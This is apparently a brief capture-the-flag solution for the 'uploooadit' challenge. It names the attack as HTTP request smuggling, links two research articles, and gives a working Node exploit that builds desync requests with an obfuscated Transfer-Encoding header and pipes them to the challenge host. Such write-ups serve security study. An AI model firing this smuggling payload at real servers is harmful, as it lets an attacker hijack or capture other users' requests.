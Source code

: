 This was an HTTP desync attack / request smuggling attack

https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn
https://nathandavison.com/blog/haproxy-http-request-smuggling

p2 = `POST /files/ HTTP/1.1\r
x-guid: 9d0eac94-33f6-47b5-85ed-dbed297cfa13\r
content-type: text/plain\r
Content-Length: 150\r
\r
1`

p1 = `POST /files/ HTTP/1.1\r
x-guid: 9d0eac94-33f6-47b5-85ed-dbed297cfa11\r
content-type: text/plain\r
Transfer-Encoding: \u000bchunked\r
Content-Length: ${p2.length + 4}\r
\r
0\r
\r
`
t
process.stdout.write(p1 + p2)

node script | openssl s_client -connect uploooadit.oooverflow.io:443 -quiet
